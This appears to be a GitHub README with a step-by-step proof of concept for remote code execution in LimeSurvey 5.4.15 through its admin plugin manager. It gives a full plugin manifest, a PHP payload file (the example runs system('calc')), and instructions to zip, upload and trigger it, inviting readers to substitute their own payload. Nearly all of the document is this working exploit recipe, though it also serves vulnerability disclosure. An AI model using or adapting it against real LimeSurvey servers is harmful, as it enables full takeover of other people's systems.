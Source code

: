 # LimeSurvey-5.4.15-PluginUploadtoRCE
In LimeSurvey-5.4.15, it has a vulnerability in index.php/admin/pluginmanager which can lead to RCE

**Impact:**
Complete control of the system.

**The directory structure of the files we need is as follows:**

![image](https://user-images.githubusercontent.com/71068573/209111954-855ad10c-f1ed-4ac8-b566-38c0eea82455.png)

**Here are the attack steps:**

1. Create a config.xml as follows, and remember the **name->exp**:

```
<?xml version="1.0" encoding="UTF-8"?>
<config>
    <metadata>
        <name>exp</name>
        <type>plugin</type>
        <creationDate>2021-11-18</creationDate>
        <lastUpdate>2021-11-23</lastUpdate>
        <author>Denis Chenu (for Respondage)</author>
        <authorUrl>https://www.respondage.nl</authorUrl>
        <supportUrl>https://www.limesurvey.org</supportUrl>
        <version>0.2.1</version>
        <license>GNU General Public License version 3 or later</license>
        <description><![CDATA[Expression Script: make answer option text available; see settings for documentation and usage.]]></description>
    </metadata>

    <compatibility>
        <version>5.0</version>
    </compatibility>

    <updaters disabled="disabled">
    </updaters>
</config>
```

2. Create a php file with the same **name(exp)** exp.php and fill your payload, like the following example:

```
<?php
system('calc');
?>
```

3. Compress config.xml and exp.php into one compressed package like exp.zip:


4. Upload this exp.zip file in **/index.php/admin/pluginmanager?sa=index** :

![image](https://user-images.githubusercontent.com/71068573/209114125-96840b66-2f3c-40b4-a67f-0324c2fc544d.png)

5. Finally, when you click the plugin that uploaded, the php payload will be triggered:

![image](https://user-images.githubusercontent.com/71068573/209113806-1f5eb404-b375-4d86-91e5-75e188ba115d.png)

![image](https://user-images.githubusercontent.com/71068573/209114242-a7c5d46f-8aa6-44e7-bff3-a5524a36e5f2.png)

